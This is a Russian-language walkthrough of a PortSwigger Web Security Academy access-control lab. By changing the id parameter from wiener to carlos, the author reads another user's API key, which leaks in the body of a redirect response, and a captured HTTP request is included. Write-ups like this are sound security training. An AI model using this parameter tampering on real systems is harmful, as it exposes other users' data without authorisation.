 ```yaml
---
title: "User ID controlled by request parameter with data leakage in redirect"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect"
classes: wide
---
```


Для прохождения лабы нужно получить `API` ключь пользователя `carlos`. Даны креды `wiener`:`peter`.

```
https://0aae00b404d33de580dfd04300790011.web-security-academy.net/
```

## Solution

Войду в ЛК. 

У меня вот такой `URL`: `https://0aae00b404d33de580dfd04300790011.web-security-academy.net/my-account?id=wiener`.

Сразу поробую подставить `carlos` вместо `wiener`. Получил странный результат. Меня перекинуло на страницу `/login`. Посмотрю на это в `Burp`:

```http
GET /my-account?id=carlos HTTP/2
Host: 0aae00b404d33de580dfd04300790011.web-security-academy.net
Cookie: session=q5PH1quh4vnGihutrb5yzLpj33HLy6e3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Ответ выглядит следующим образом:

```http
HTTP/2 302 Found
Location: /login
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3655

...
```

После чего перенаправляет на `/login`. Если открыть `HTML`, то в нем можно найти следующее:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/1.png){: height="200" .align-center}

Видимо веб-сервер отдает нам страницу, а затем перенаправляет. Попробую сдать данный `API`-ключ: 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_ID_controlled_by_request_parameter_with_data_leakage_in_redirect/2.png){: height="200" .align-center}

Да, это был он)